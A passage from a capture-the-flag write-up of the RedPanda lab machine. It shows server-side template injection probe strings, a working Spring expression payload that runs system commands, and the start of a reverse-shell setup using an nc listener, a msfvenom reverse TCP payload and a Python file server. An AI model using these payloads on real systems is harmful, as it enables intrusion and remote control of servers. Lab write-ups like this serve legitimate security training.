 ```text
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

The only two payloads that worked with me are: `#{7*7} and *{7*7}`.

![ssti1](post/RedPanda_HTB/imgs/RedPanda/5.JPG)

![ssti2](post/RedPanda_HTB/imgs/RedPanda/6.JPG)


#### Identify

After a lot of searching i have fount that the template engine is called **Spring Framework (Java)**

#### Exploit

I have found that article from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), It talks about everything of **SSTI** from detection to exploitation .. Check it out!

From it, I have found a payload which makes me get an **RCE**!

Let's start by getting the **id** command:
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

![id](post/RedPanda_HTB/imgs/RedPanda/7.JPG)

Now, I have initalize a **listener** and get a **Reverse Shell**!

1. Initialize a **Listener**:
```bash
$ nc -nlvp 4444
listening on [any] 4444 ...
```

2. Spawn a Reverse shell payload using **MsVenom**:
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.X.X LPORT=4444 -f elf -o reverse.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: reverse.elf
```

3. Initialize a Python server:
```bash
$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
```
